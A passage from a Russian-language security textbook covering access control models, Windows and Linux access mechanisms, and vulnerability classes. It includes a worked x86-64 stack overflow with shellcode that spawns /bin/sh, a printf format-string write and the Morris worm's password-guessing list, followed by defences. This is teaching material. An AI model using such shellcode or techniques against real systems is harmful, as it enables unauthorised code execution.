Плюсом использования session storage является то, что этот механизм уже реализован в большинстве платформ для построения веб-приложений (см., например, \cite[Controlling sessions]{Brittain:Darwin:2007}). Его минусом является сложность синхронизации структур сессий в памяти серверов для распределённых информационных систем большого размера.

Вторым способом вторичной аутентификации с использованием cookie является непосредственное включение аутентификационных данных (идентификатор пользователя, срок действия) в cookie вместо случайного токена. К данным в обязательном порядке добавляется имитовставка\index{имитовставка} по ключу, который известен только сервису. С одной стороны, данный подход может значительно увеличить размер передаваемых cookie. С другой -- он облегчает вторичную аутентификацию в распределённых системах, так как промежуточным сервисом, хранящим информацию о произошедшей аутентификации, является только клиент, а не сервер.

Конечно, беспокоиться об аутентификации в веб-сервисах при использовании обычного HTTP-протокола\index{протокол!HTTP} без зашифрованного SSL-соединения\index{протокол!SSL/TLS} имеет смысл только по отношению к угадыванию токенов аутентификации другими пользователями, которые не имеют доступа к маршрутизаторам и сети, через которые клиент общается с сервисом. Кража компьютера или одного cookie-файла и перехват незащищённого трафика протокола HTTP\index{протокол!HTTP} приводят к доступу в систему под именем взломанного пользователя.



\chapter{Программные уязвимости}

\section[Контроль доступа в ИС]{Контроль доступа в \protect\\ информационных системах}
\selectlanguage{russian}

%http://www.acsac.org/2005/papers/Bell.pdf
%http://www.dranger.com/iwsec06_co.pdf
%http://csrc.nist.gov/groups/SNS/rbac/documents/design_implementation/Intro_role_based_access.htm
%http://en.wikipedia.org/wiki/Access_control#Computer_security
%http://en.wikipedia.org/wiki/Discretionary_access_control
%http://en.wikipedia.org/wiki/Mandatory_access_control
%http://en.wikipedia.org/wiki/Role-Based_Access_Control

В информационных системах контроль доступа вводится над \emph{действия} \emph{субъектов} над \emph{объектами}. В операционных системах под субъектами почти всегда понимаются процессы, под объектами -- процессы, разделяемая память, объекты файловой системы, порты ввода-вывода и~т.\,д., под действием -- чтение (файла или содержимого директории), запись (создание, добавление, изменение, удаление, переименование файла или директории) и исполнение (файла-программы). Система контроля доступа в информационной системе (операционной системе, базе данных и~т.\,д.) определяет множество субъектов, объектов и действий.

Применение контроля доступа создаётся:

\begin{enumerate}
	\item \emph{аутентификацией} субъектов и объектов,
	\item \emph{авторизацией} допустимости действия,
	\item \emph{аудитом} (проверкой и хранением) ранее совершённых действий.
\end{enumerate}

Различают три основные модели контроля доступа: дискреционная\index{управление доступом!дискреционное} (\langen{discretionary access control, DAC}), мандатная\index{управление доступом!мандатное} (\langen{mandatory access control, MAC}) и ролевая\index{управление доступом!ролевое} (\langen{role-based access control, RBAC}). Современные операционные системы используют \emph{комбинации} двух или трёх моделей доступа, причём решения о доступе принимаются в порядке убывания приоритета: ролевая, мандатная, дискреционная модели.

Системы контроля доступа и защиты информации в операционных системах используются не только для защиты от злоумышленника, но и для повышения устойчивости системы в целом. Однако появление новых механизмов в новых версиях ОС может привести к проблемам совместимости с уже существующим программным обеспечением.

\subsection{Дискреционная модель}

Классическое определение из так называемой Оранжевой книги (\langen{``Trusted Computer System Evaluation Criteria''}, устаревший стандарт министерства обороны США 5200.28-STD, 1985 г.~\cite{DOD-5200.28-STD}) следующее: дискреционная модель\index{контроль доступа!дискреционный} -- средства ограничения доступа к объектам, основанные на сущности (\langen{identity}) субъекта и/или группы, к которой они принадлежат. Субъект, имеющий определённый доступ к объекту, обладает возможностью полностью или частично передать право доступа другому субъекту.

На практике дискреционная модель доступа предполагает, что для каждого объекта в системе определён субъект-владелец. Этот субъект может самостоятельно устанавливать необходимые, по его мнению, права доступа к любому из своих объектов для остальных субъектов, в том числе и для себя самого. Логически владелец объекта является владельцем информации, находящейся в этом объекте. При доступе некоторого субъекта к какому-либо объекту система контроля доступа лишь считывает установленные для объекта права доступа и сравнивает их с правами доступа субъекта. Кроме того, предполагается наличие в ОС некоторого выделенного субъекта -- администратора дискреционного управления доступом, который имеет привилегию устанавливать дискреционные права доступа для любых, даже ему не принадлежащих объектов в системе.

Дискреционную модель реализуют почти все популярные ОС, в частности Windows и Unix. У каждого объекта (файла, процесса и~т.\,д.) есть субъект-владелец (пользователь, группа пользователей или система), который может делегировать доступ к объекту другим субъектам, изменяя атрибуты на чтение и запись файлов. Администратор системы обычно имеет возможно поменять владельца любого объекта и любые атрибуты безопасности.

\subsection{Мандатная модель}

Приведем классическое определение мандатной модели\index{контроль доступа!мандатный} из Оранжевой книги. \emph{Мандатная модель} контроля доступа -- это модель, в которой используются средства ограничения доступа к объектам, основанные на важности (секретности) информации, содержащейся в объектах, и обязательная авторизация действий субъектов для доступа к информации с присвоенным уровнем важности. Важность информации определяется уровнем доступа, приписываемым всем объектам и субъектам. Исторически мандатная модель определяла важность информации в виде иерархии, например совершенно секретно (СС), секретно (С), конфиденциально (К) и рассекречено (Р). При этом верно следующее: СС $\supset$ C $\supset$ K $\supset$ P, то есть каждый уровень включает сам себя и все уровни, находящиеся ниже в иерархии.

Современное определение мандатной модели -- применение явно указанных правил доступа субъектов к объектам, определяемых только администратором системы. Сами субъекты (пользователи) не имеют возможности для изменения прав доступа. Правила доступа описаны матрицей, в которой столбцы соответствуют субъектам, строки -- объектам, а в ячейках содержатся допустимые действия субъекта над объектом. Матрица покрывает всё пространство субъектов и объектов. Также определены правила наследования доступа для новых создаваемых объектов. В мандатной модели матрица может быть изменена только администратором системы.

Модель Белла --- Ла Падулы\index{модель!Белла --- Ла Падулы} (\langen{Bell --- LaPadula Model},~\cite{Bell:LaPadula:1973, Bell:LaPadula:1976}) использует два мандатных и одно дискреционное правила политики безопасности.
\begin{enumerate}
    \item Субъект с определённым уровнем секретности не может иметь доступ на \emph{чтение} объектов с более \emph{высоким} уровнем секретности (\langen{no read-up}).
    \item Субъект с определённым уровнем секретности не может иметь доступ на \emph{запись} объектов с более \emph{низким} уровнем секретности (\langen{no write-down}).
    \item Использование матрицы доступа субъектов к объектам для описания дискреционного доступа.
\end{enumerate}

\subsection{Ролевая модель}

Ролевая модель доступа основана на определении ролей в системе\index{контроль доступа!ролевой}. Понятие <<роль>> в этой модели -- это совокупность действий и обязанностей, связанных с определённым видом деятельности. Таким образом, достаточно указать тип доступа к объектам для определённой роли и определить группу субъектов, для которых она действует.
Одна и та же роль может использоваться несколькими различными субъектами (пользователями). В некоторых системах пользователю разрешается выполнять несколько ролей одновременно, в других есть ограничение на одну или несколько непротиворечащих друг другу ролей в каждый момент времени.

Ролевая модель, в отличие от дискреционной и мандатной, позволяет реализовать разграничение полномочий пользователей, в частности, на системного администратора и офицера безопасности, что повышает защиту от человеческого фактора.


\section{Контроль доступа в ОС}
\selectlanguage{russian}

\subsection{Windows}
%http://www.gentlesecurity.com/blog/andr/cracking_windows_access_control.pdf
%http://msdn.microsoft.com/en-us/library/bb250462(VS.85).aspx#upm_ovwim
%http://msdn.microsoft.com/en-us/library/bb625963.aspx
%http://msdn.microsoft.com/en-us/library/bb625964.aspx

Операционные системы Windows, вплоть до Windows Vista, использовали только дискреционную модель безопасности. Владелец файла имел возможность изменить права доступа или разрешить доступ другому пользователю.

Начиная с Windows Vista, в дополнение к стандартной дискреционной модели субъекты и объекты стали обладать мандатным уровнем доступа, устанавливаемым администратором (или по умолчанию системой для новых созданных объектов) и имеющим приоритет над стандартным дискреционным доступом, который может менять владелец.

В Vista мандатный уровень доступа предназначен в большей степени для обеспечения \emph{целостности} и устойчивости системы, чем для обеспечения секретности.

Уровень доступа объекта (\langen{integrity level} в терминологии Windows) помечается шестнадцатеричным числом в диапазоне от \texttt{0} до \texttt{0x4000}, большее число означает более высокий уровень доступа. В Vista определены 5 базовых уровней:
\begin{itemize}
    \item ненадёжный (Untrusted, \texttt{0x0000});
    \item низкий (Low Integrity, \texttt{0x1000});
    \item средний (Medium Integrity, \texttt{0x2000});
    \item высокий (High Integrity, \texttt{0x3000});
    \item системный (System Integrity, \texttt{0x4000}).
\end{itemize}

Дополнительно объекты имеют три атрибута, которые, если они установлены, запрещают доступ субъектов с более низким уровнем доступа к ним: cубъекты с более низким уровнем доступа не могут:
\begin{itemize}
    \item читать (\langen{no read-up});
    \item изменять (\langen{no write-up});
    \item исполнять (\langen{no execute-up}).
\end{itemize}
объекты с более высоким уровнем доступа. Для всех объектов по умолчанию установлен атрибут запрета записи объектов с более высоким уровнем доступа, чем имеет субъект (no write-up).

Субъекты имеют два атрибута:
\begin{itemize}
    \item запрет записи объектов с более высоким уровнем доступа, чем у субъекта (no write-up, эквивалентно аналогичному атрибуту объекта);
    \item установка уровня доступа созданного процесса-потомка как минимума от уровня доступа родительского процесса (субъекта) и исполняемого файла (объекта файловой системы).
\end{itemize}
Оба атрибута установлены по умолчанию.

Все пользовательские данные и процессы по умолчанию имеют средний уровень доступа, а системные файлы -- системный. Например, если в Internet Explorer, который в защищённом (\langen{protected}) режиме запускается с низким уровнем доступа, обнаружится уязвимость, злоумышленник не будет иметь возможности изменить системные данные на диске, даже если браузер запущен администратором.

Уровень доступа процесса соответствует уровню доступа пользователя (процесса), который запустил процесс. Например, пользователи LocalSystem, LocalService, NetworkService получают системный уровень, администраторы -- высокий, обычные пользователи системы -- средний, остальные (\langen{everyone}) -- низкий.

По каким-то причинам, вероятно, для целей совместимости с ранее разработанными программами и/или для упрощения разработки и настройки новых сторонних программ других производителей, субъекты с системным, высоким и средним уровнями доступа создают объекты или владеют объектами со \emph{средним} уровнем доступа. И только субъекты с низким уровнем доступа создают объекты с низким уровнем доступа. Это означает, что системный процесс может владеть файлом или создать файл со средним уровнем доступа, и другой процесс с более низким уровнем доступа, например средним, может получить доступ к файлу, в том числе и на запись. Это нарушает принцип запрета записи в объекты, созданные субъектами с более высоким уровнем доступа.


\subsection{Linux}

Стандартная ОС Unix обеспечивает дискреционную модель контроля доступа на следующей основе.
\begin{itemize}
    \item Каждый субъект (процесс) и объект (файл) имеют владельца, пользователя и группу, которые могут изменять доступ к данному объекту для себя, других пользователей и групп.
    \item Каждый объект (файл) имеет атрибуты доступа на чтение (r), запись (w) и исполнение (x) для трёх типов пользователей: владельца-пользователя (u), владельца-группы (g), остальных пользователей (o) -- (u=rwx, g=rwx, o=rwx).
    \item Субъект может входить в несколько групп.
\end{itemize}

В 2000 г. Агентство Национальной Безопасности США (NSA) выпустило набор изменений SELinux с открытым исходным кодом к ядру ОС Linux версии 2.4. Начиная с версии ядра 2.6, SELinux входит как часть стандартного ядра. SELinux реализует комбинацию ролевой, мандатной и дискреционной моделей контроля доступа, которые могут быть изменены только администратором системы (и/или администратором безопасности). По сути, SELinux приписывает каждому субъекту одну или несколько ролей, и для каждой роли указано, к объектам с какими атрибутами они могут иметь доступ и какого вида.

Основная проблема ролевых систем контроля доступа -- очень большой список описания ролей и атрибутов объектов, что увеличивает сложность системы и приводит к регулярным ошибкам в таблицах описания контроля доступа.


\section{Виды программных уязвимостей}

\emph{Вирусом} называется самовоспроизводящаяся часть кода (подпрограмма)\index{вирус}, которая встраивается в носители (другие программы) для своего исполнения и распространения. Вирус не может исполняться и передаваться без своего носителя.

\emph{Червём} называется самовоспроизводящаяся отдельная (под)программа\index{червь}, которая может исполняться и распространяться самостоятельно, не используя программу-носитель.

Первой вехой в изучении компьютерных вирусов можно назвать 1949 год, когда Джон фон Нейман прочёл курс лекций в Университете Иллинойса под названием <<Теория самовоспроизводящихся машин>> (изданы в 1966~\cite{Neumann:1966}, переведены на русский язык издательством <<Мир>> в 1971 году~\cite{Neumann:1971}), в котором ввёл понятие самовоспроизводящихся механических машин. Первым сетевым вирусом считается вирус Creeper 1971 г., распространявшийся в сети ARPANET, предшественнице Интернета. Для его уничтожения был создан первый антивирус Reaper, который находил и уничтожал Creeper.

Первый червь для Интернета, червь Морриса, 1988 г., уже использовал \emph{смешанные} атаки\index{атака!смешанная} для заражения UNIX машин~\cite{EichinRochlis:1988, Spafford:1989}. Сначала программа получала доступ к удалённому запуску команд, эксплуатируя уязвимости в сервисах \texttt{sendmail}, \texttt{finger} (с использованием атаки на переполнение буфера) или \texttt{rsh}. Далее, с помощью механизма подбора паролей червь получал доступ к локальным аккаунтам пользователей:
\begin{itemize}
    \item получение доступа к учётным записям с очевидными паролями:
		\begin{itemize}
			\item без пароля вообще;
			\item имя аккаунта в качестве пароля;
			\item имя аккаунта в качестве пароля, повторённое дважды;
			\item использование <<ника>> (\langen{nickname});
			\item фамилия (\langen{last name, family name});
			\item фамилия, записанная задом наперёд;
		\end{itemize}
		\item перебор паролей на основе встроенного словаря из 432 слов;
		\item перебор паролей на основе системного словаря \texttt{/usr/dict/words}.
\end{itemize}

\emph{Программной уязвимостью}\index{программная уязвимость} называется свойство программы, позволяющее нарушить её работу. Программные уязвимости могут приводить к отказу в обслуживании (Denial of Service, DoS-атака)\index{атака!отказ в обслуживании}, утечке и изменению данных, появлению и распространению вирусов и червей.

Одной из распространённых атак для заражения персональных компьютеров является переполнение буфера в стеке. В интернет-сервисах наиболее распространённой программной уязвимостью в настоящее время является межсайтовый скриптинг (Cross-Site Scripting, XSS-атака)\index{атака!XSS}.

Наиболее распространённые программные уязвимости можно разделить на классы:
\begin{enumerate}
    \item Переполнение буфера -- копирование в буфер данных большего размера, чем длина выделенного буфера. Буфером может быть контейнер текстовой строки, массив, динамически выделяемая память и~т.\,д. Переполнение становится возможным вследствие либо отсутствия контроля над длиной копируемых данных, либо из-за ошибок в коде. Типичная ошибка -- разница в 1 байт между размерами буфера и данных при сравнении.
    \item Некорректная обработка (парсинг) данных, введённых пользователем, является причиной большинства программных уязвимостей в веб-приложениях. Под обработкой понимаются:
        \begin{enumerate}
            \item проверка на допустимые значения и тип (числовые поля не должны содержать строки и~т.\,д.);
            \item фильтрация и экранирование специальных символов, имеющих значения в скриптовых языках или применяющихся для перекодирования из одной текстовой кодировки в другую. Примеры символов: \texttt{\textbackslash}, \texttt{\%}, \texttt{<}, \texttt{>}, \texttt{"}, \texttt{'};
            \item фильтрация ключевых слов языков разметки и скриптов. Примеры: \texttt{script}, \texttt{JavaScript};
            \item перекодирование различными кодировками при парсинге. Распространённый способ обхода системы контроля парсинга данных состоит в однократном или множественном последовательном кодировании текстовых данных в шестнадцатеричные кодировки \texttt{\%NN} ASCII и UTF-8. Например, браузер или веб-приложения производят $n$-кратное перекодирование, в то время как система контроля делает $k$-кратное перекодирование, $0 \leq k < n$, и, следовательно, пропускает закодированные запрещённые символы и слова.
        \end{enumerate}
    \item Некорректное использование функций. Например, \texttt{printf(s)} может привести к уязвимости записи в память по указанному адресу. Если злоумышленник вместо обычной текстовой строки введёт в качестве \texttt{s "текст некоторой длины\%n"}, то функция \texttt{printf}, ожидающая первым аргументом строку формата \texttt{fmt}, обнаружив \texttt{\%n}, возьмёт значение из ячеек памяти, находящихся перед ячейками с указателем на текстовую строку (устройство стека описано далее), и запишет в память по адресу, равному считанному значению, количество выведенных символов на печать функцией \texttt{printf}.
\end{enumerate}


\section{Переполнение буфера в стеке}
\selectlanguage{russian}

В качестве примера переполнения буфера опишем самую распространённую атаку, направленную на исполнение кода злоумышленника.

В 64-битовой x86-64 архитектуре основное пространство виртуальной памяти процесса из 16-ти эксбибайт ($2^{64}$ байт) свободно, и только малая часть занята (выделена). Виртуальная память выделяется процессу операционной системой блоками по 4 кибибайта, называемыми страницами памяти. Выделенные страницы соответствуют страницам физической оперативной памяти или страницам файлов.

Пример выделенной виртуальной памяти процесса представлен в таблице~\ref{tab:virtual-memory}. Локальные переменные функций хранятся в области памяти, называемой стеком.

Приведём пример переполнения буфера в стеке\index{стек}, которое даёт возможность исполнить код для 64-разрядной ОС Linux. Ниже приводится листинг исходной программы, которая печатает расстояние Хэмминга между векторами $b1 = \text{\texttt{0x01234567}}$ и $b2 = \text{\texttt{0x89ABCDEF}}$.

\begin{verbatim}
#include <stdio.h>
#include <string.h>

int hamming_distance(unsigned a1, unsigned a2, char *text,
                     size_t textsize) {
  char buf[32];
  unsigned distance = 0;
  unsigned diff = a1 ^ a2;
  while (diff) {
    if (diff & 1) distance++;
    diff >>= 1;
  }
  memcpy(buf, text, textsize);
  printf("%s: %i\n", buf, distance);
  return distance;
}

int main() {
  char text[68] = "Hamming";
  unsigned b1 = 0x01234567;
  unsigned b2 = 0x89ABCDEF;
  return hamming_distance(b1, b2, text, 8);
}
\end{verbatim}

\begin{table}[!ht]
    \centering
    \caption{Пример структуры виртуальной памяти процесса\label{tab:virtual-memory}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{r|c|}
        \multicolumn{2}{c}{Адрес ~~~~~~~~~~~~~~ Использование} \\
        \cline{2-2}
        \texttt{0x00000000 00000000} & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00000000 0040063F} & \multirow{2}{*}{\parbox{6cm}{Исполняемый код, динамические библиотеки}} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00000000 0143E010} & \multirow{2}{*}{Динамическая память} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00007FFF A425DF26} & \multirow{2}{*}{Переменные среды} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00007FFF FFFFEB60} & \multirow{2}{*}{Стек функций} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        \texttt{0xFFFFFFFF FFFFFFFF} & \\
        \cline{2-2}
    \end{tabular} }
\end{table}

Вывод программы при запуске:
\begin{verbatim}
$ ./hamming
Hamming: 8
\end{verbatim}

При вызове функций вызывающая функция выделяет стековый кадр для вызываемой функции в сторону уменьшения адресов. Стековый кадр в порядке уменьшения адресов состоит из следующих частей:
\begin{enumerate}
    \item Аргументы вызова функции, расположенные в порядке увеличения адреса (за исключением тех, которые передаются в регистрах процессора).
    \item Сохранённый регистр процессора \texttt{rip} вызывающей функции, также называемый адресом возврата. Регистр \texttt{rip} содержит адрес следующей инструкции для исполнения. При входе в вызываемую функцию \texttt{rip} запоминается в стеке, затем в \texttt{rip} записывается адрес первой инструкции вызываемой функции, а по завершении функции \texttt{rip} восстанавливается из стека, и, таким образом, исполнение возвращается назад.
    \item Сохранённый регистр процессора \texttt{rbp} вызывающей функции. Регистр \texttt{rbp} содержит адрес сохранённого предыдущего значения \texttt{rbp} вызывающей функции. Процессор обращается к локальным переменным функций по смещению относительно \texttt{rbp}. При вызове функции \texttt{rbp} сохраняется в стеке, затем в \texttt{rbp} записывается текущее значение адреса вершины стека (регистр \texttt{rsp}), а по завершении функции \texttt{rbp} восстанавливается.
    \item Локальные переменные вызываемой функции, как правило, расположенные в порядке уменьшения адреса при объявлении новой переменной (порядок может быть изменён в результате оптимизаций и использования механизмов защиты, таких как Stack Smashing Protection в компиляторе GCC).
\end{enumerate}

Адрес начала стека, а также, возможно, адреса локальных массивов и переменных выровнены по границе параграфа в 16 байтов, из-за чего в стеке могут образоваться неиспользуемые байты.

Если в программе имеется ошибка, которая может привести к переполнению выделенного буфера в стеке при копировании, то есть возможность записать вместо сохранённого значения регистра \texttt{rip} новое. В результате по завершении данной функции исполнение начнётся с указанного адреса. Если есть возможность записать в переполняемый буфер исполняемый код, а затем на место сохранённого регистра \texttt{rip} адрес на этот код, то получим исполнение заданного кода в стеке функции.

На рис.~\ref{fig:stack-overflow} приведены исходный стек и стек с переполнением буфера, из-за которого записалось новое сохранённое значение \texttt{rip}.

\begin{figure}[!ht]
	\centering
	
\includegraphics[width=0.95\textwidth]{pic/stack-overflow}
	\caption{Исходный стек и стек с переполнением буфера\label{fig:stack-overflow}}
\end{figure}


Изменим программу для демонстрации, поместив в копируемую строку исполняемый код для вызова \texttt{/bin/sh}.
{ \small
\begin{verbatim}
...
int main() {
  char text[68] =
    // 28 байтов исполняемого кода
    "\x90" "\x90" "\x90"                // nop; nop; nop
    "\x48\x31" "\xD2"                   // xor %rdx, %rdx
    "\x48\x31" "\xF6"                   // xor %rsi, %rsi
    "\x48\xBF" "\xDC\xEA\xFF\xFF"
    "\xFF\x7F\x00\x00"                  // mov $0x7fffffffeadc,
                                        //   %rdi
    "\x48\xC7\xC0" "\x3B\x00\x00\x00"   // mov $0x3b, %rax
    "\x0F\x05"                          // syscall
    // 8 байтов строки /bin/sh
    "\x2F\x62\x69\x6E\x2F\x73\x68\x00"  // "/bin/sh\0"
    // 12 байтов заполнения и 16 байтов новых
    // значений сохранённых регистров
    "\x00\x00\x00\x00"                  // незанятые байты
    "\x00\x00\x00\x00"                  // unsigned distance
    "\x00\x00\x00\x00"                  // unsigned diff
    "\x50\xEB\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rbp=0x7fffffffeb50
    "\xC0\xEA\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00";                 //   rip=0x7fffffffeac0
  ...
  hamming_distance(b1, b2, text, 68);
  return 0;
}
\end{verbatim} }

Код эквивалентен вызову функции \texttt{execve(``/bin/sh'', 0, 0)} через системный вызов функции ядра Linux для запуска оболочки среды \texttt{/bin/sh}. При системном вызове нужно записать в регистр \texttt{rax} номер системной функции, а в другие регистры процессора -- аргументы. Данный системный вызов с номером \texttt{0x3b} требует в качестве аргументов регистры \texttt{rdi} с адресом строки исполняемой программы, \texttt{rsi} и \texttt{rdx} с адресами строк параметров запускаемой программы и переменных среды. В примере в \texttt{rdi} записывается адрес \texttt{0x7fffffffeadc}, который указывает на строку \texttt{``/bin/sh''} в стеке после копирования. Регистры \texttt{rdx} и \texttt{rsi} обнуляются.

На рис.~\ref{fig:stack-overflow} приведён стек с переполненным буфером, в котором записалось новое сохранённое значение \texttt{rip}, указывающее на заданный код в стеке.

Начальные инструкции \texttt{nop} с кодом \texttt{0x90} означают пустые операции. Часто точные значения адреса и структуры стека неизвестны, поэтому злоумышленник угадывает предполагаемый адрес стека. В начале исполняемого кода создаётся массив из операций \texttt{nop} с надеждой на то, что предполагаемое значение стека, то есть требуемый адрес \texttt{rip}, попадёт на эти операции, повысив шансы угадывания. Стандартная атака на переполнение буфера с исполнением кода также подразумевает последовательный перебор предполагаемых адресов для нахождения правильного адреса для \texttt{rip}.

В результате переполнения буфера в примере по завершении функции \texttt{hamming\_distance()} начнёт исполняться инструкция с адреса строки \texttt{buf}, то есть заданный код.


\subsection{Защита}

Лучший способ защиты от атак переполнения буфера -- создание программного кода со слежением за размером данных и длиной буфера. Однако ошибки всё равно происходят. Существует несколько стандартных способов защиты от исполнения кода в стеке в архитектуре x86 (x86-64).

\begin{enumerate}
	\item Современные 64-разрядные x86-64 процессоры включают поддержку флагов доступа к страницам памяти. В таблице виртуальной памяти, выделенной процессу, каждая страница имеет набор флагов, отвечающих за защиту страниц от некорректных действий программы:
		\begin{itemize}
		\item флаг разрешения доступа из пользовательского режима -- если флаг не установлен, то доступ к данной области памяти возможен только из режима ядра;
		\item флаг запрета записи -- если флаг установлен, то попытка выполнить запись в данную область памяти приведёт к возникновению исключения;
		\item флаг запрета исполнения\index{бит запрета исполнения} (NX-Bit, No eXecute Bit в терминологии AMD; XD-Bit, Execute Disable Bit в терминологии Intel; DEP, Data Execution Prevention -- соответствующая опция защиты в операционных системах) -- если флаг установлен, то при попытке передачи управления на данную область памяти возникнет исключение. Для совместимости со старым программным обеспечением есть возможность отключить использование данного флага на уровне операционной системы целиком или для отдельных программ.
	\end{itemize}
	Попытка выполнить операции, которые запрещены соответствующими настройками виртуальной памяти, вызывает ошибку сегментации (\langen{segmentation fault, segfault}).

    \item Второй стандартный способ -- вставка проверочных символов (\langen{canaries, guards}) после массивов и в конце стека и их проверка перед выходом из функции. Если произошло переполнение буфера, программа аварийно завершится. Данный способ защиты реализован с помощью модификации конечного кода программы во время компиляции\footnote{См. опции \texttt{-fstack-protector} для GCC, \texttt{/GS} для компиляторов от Microsoft и другие.}, его нельзя включить или отключить без перекомпиляции программного обеспечения.

    \item Третий способ -- рандомизация адресного пространства (\langen{address space layout randomization, ASLR}), то есть случайное расположение стека, кода и~т.\,д. В настоящее время используется в большинстве современных операционных систем (Android, iOS, Linux, OpenBSD, macOS, Windows). Это приводит к маловероятному угадыванию адресов и значительно усложняет использование уязвимости.
\end{enumerate}

\subsection{Другие атаки с переполнением буфера}

